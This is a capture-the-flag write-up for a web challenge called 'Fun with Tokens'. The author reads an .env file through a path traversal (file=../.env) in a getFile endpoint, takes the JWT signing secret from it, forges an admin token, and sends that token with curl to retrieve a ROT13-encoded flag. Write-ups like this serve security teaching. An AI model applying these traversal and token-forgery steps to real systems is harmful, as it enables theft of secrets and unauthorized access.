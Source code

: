 # Fun with Tokens

Visiting the provided website we see some interesting thing:
There are two links:

http://3.142.122.1:9334/login
http://3.142.122.1:9334/adminNames

And comments in the Source:
```
<!-- /admin is where the fun's at XD -->
<!--The secret you seek is in the environment-->
```

Admin names sounds interesting so let's check that first:
There is actually a redirect to a getFile.php interesting.
Opening http://3.142.122.1:9334/getFile?file=admins in a browser provides us a list with admin names:

```
0xd4127c3c
din_djarin11
```

This already looks a lot like there might be LFI possible. We have the hint that there is some secret in the environment so let's try to pull the .env file using the getFile.php:

http://3.142.122.1:9334/getFile?file=.env
```
No such file or directory: /app/public/.env
```

Okay but maybe in the /app directory?

http://3.142.122.1:9334/getFile?file=../.env

```
secret=G00D_s0ld13rs_k33p_s3cret5
```
Sweet! Unfortunately this is not our flag so we have to search further. Let's have at /admin as the hint said that's where the fun is supposed to be.

http://3.142.122.1:9334/admin
```
{"success":false,"message":"Maybe send the token via Headers ... for Authorization?"}
```

This is some kind of API but we are not authorized. It seems like we need a token, we already have a secret_key which is used to sign tokens so this will propably be our attack vector.
We don't have any cookies/tokens yet so let's check our /login page.

For getting the intial token 

```curl -s -i "http://3.142.122.1:9334/login" -d "username=din_djarin11" |grep token```

![header_token](https://user-images.githubusercontent.com/73250884/120975811-495cc780-c78f-11eb-8846-a9fcd65a5263.png)

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InF2YV9xd25ldmExMSIsInBhc3N3b3JkIjoiaGFxcnN2YXJxIiwiYWRtaW4iOiJzbnlmciIsImlhdCI6MTYyMzA1MDUyNn0.HcaTRFCnecRpusoNFTupk2ZiH4tCMNwVCrI4tMn2-4Q
```
Let's decrypt it using https://jwt.io

Intiallly it is like this

![jwt.io.png](https://user-images.githubusercontent.com/73250884/120976911-680f8e00-c790-11eb-8b3e-8f58508ca57a.png)

Change the admin to gehr and use the secret code we got.

After changing we get out new token

![jwt_io.png](https://user-images.githubusercontent.com/73250884/120976121-a8bad780-c78f-11eb-919a-b37128069345.png)

```eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InF2YV9xd25ldmExMSIsInBhc3N3b3JkIjoiaGFxcnN2YXJxIiwiYWRtaW4iOiJnZWhyIiwiaWF0IjoxNjIzMDUwNTI2fQ.lzzivSQHWUoPxBy4VWv0CdosfDJRZDiOqjR7T36eerQ
```
Let's send that token to /admin as our authorization header:

```
curl http://3.142.122.1:9334/admin -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InF2YV9xd25ldmExMSIsInBhc3N3b3JkIjoiaGFxcnN2YXJxIiwiYWRtaW4iOiJnZWhyIiwiaWF0IjoxNjIzMDUwNTI2fQ.lzzivSQHWUoPxBy4VWv0CdosfDJRZDiOqjR7T36eerQ"
Hey din_djarin11! Here's your flag: FURYY{G0x3af_q0_z4gg3e_4r91ns4506s384q460s0s0p6r9r5sr4n}
```

![image](https://user-images.githubusercontent.com/73250884/120977485-000d7780-c791-11eb-8f69-08841c575b3c.png)

```
FURYY{G0x3af_q0_z4gg3e_4r91ns4506s384q460s0s0p6r9r5sr4n}
```
By doing the rot 13 using cyberchef we get the flag https://gchq.github.io/CyberChef/

![image](https://user-images.githubusercontent.com/73250884/120977731-4a8ef400-c791-11eb-83a6-0dcb1613e7fe.png)

```
SHELL{T0k3ns_d0_m4tt3r_4e91af4506f384d460f0f0c6e9e5fe4a}
```
